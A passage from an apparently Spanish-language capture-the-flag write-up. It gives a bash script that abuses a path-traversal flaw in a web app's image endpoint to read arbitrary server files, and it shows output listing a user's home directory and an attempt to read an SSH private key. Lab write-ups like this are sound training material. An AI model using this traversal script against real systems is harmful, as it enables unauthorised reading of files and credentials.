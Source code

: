 ```bash

declare -i parameter_counter=0 # declaramos una variable int

function fileRead(){
  filename=$1
  echo -e "\n${yellowColour}[+]${endColour}${grayColour} Este es el contenido del archivo ${endColour}${redColour}$filename${endColour}${grayColour}:${endColour}\n"
  curl -s -X GET "http://10.129.178.70:8080/show_image?img=../../../../../..$filename"
}

function helpPanel(){
  echo -e "\n${yellowColour}[i]${endColour}${grayColour}Uso:${endColour}\n"
  echo -e "\t${redColour}h)${endColour}${blueColour} Mostrar este panel de ayuda${endColour}"
  echo -e "\t${redColour}f)${endColour}${blueColour} Proporcionar ruta del archivo a leer\n${endColour}"
  exit 0
}

#Menu cuando quieres que se te pase un argumento poner : despues de la opcion 
while getopts "hf:" arg; do
  case $arg in
    h) ;; # no hace nada por que es un panel de ayuda
    f) filename=$OPTARG; let parameter_counter+=1; # lo que le pases lo mete en la variable filename
  esac
done

if [ $parameter_counter -eq 1 ]; then
  fileRead "$filename"
else
  helpPanel
fi
```

En el directorio del usuario `phil` podemos ver la `user.txt`

```bash
❯ ./lfi.sh -f /home/phil

[+] Este es el contenido del archivo /home/phil:

.bash_history
.bashrc
.cache
.profile
user.txt
```

Si tratamos de ver la `id_rsa` no podremos verla ya que no esta el directorio `.ssh` lo cual es raro

```bash
❯ ./lfi.sh -f /home/phil/.ssh/id_rsa

[+] Este es el contenido del archivo /home/phil/.ssh/id_rsa:

{"timestamp":"2023-03-11T23:44:50.834+00:00","status":500,"error":"Internal Server Error","message":"URL [file:/var/www/WebApp/src/main/uploads/../../../../../../home/phil/.ssh/id_rsa] cannot be resolved in the file system for checking its content length","path":"/show_image"}#   
```
